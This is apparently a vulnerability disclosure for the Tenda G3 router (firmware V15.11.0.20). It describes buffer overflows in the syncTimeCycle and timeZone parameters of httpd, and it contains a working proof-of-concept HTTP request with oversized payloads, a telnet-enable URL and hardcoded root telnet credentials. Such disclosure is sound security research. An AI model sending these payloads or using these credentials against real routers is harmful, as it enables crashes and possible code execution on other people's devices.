



# Tenda G3 Buffer overflow vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There are multiple Buffer overflow vulnerabilities in tenda G3 V15.11.0.20, which can cause httpd to crash, or even execute arbitary code.

## Affected version


Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/Fireitup

using ida to analysis httpd, in function formSetSysTime:



The program passes the contents obtained by the syncTimeCycle parameter to timeper.
Then, timeper is set to sys.timefixper stored in the system by function SetValue.  



In function formGetSysTime, sys.timefixper is passed to timeper by function GetValue, timeper is an array of finite length.
There is no size check, so there is a vulnerability that can cause buffer overflow through syncTimeCycle parameter.

In like manner, timeZone can also cause buffer overflow.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.
The functional data packets are as follows, and we will use this to construct poc.  

```http
POST /goform/setSysTime HTTP/1.1
Host: 192.168.0.252
Content-Length: 644
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.252
Referer: http://192.168.0.252/sysManage/sysTime.html?0.9274921972301438
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close

sysTimePolicy=syncNet&syncTimeCycle=1800AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&timeZone=202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:




Figure shows POC attack effect, the pid of http changed, and the crash file in /tmp/.

## CVE-ID

unsigned
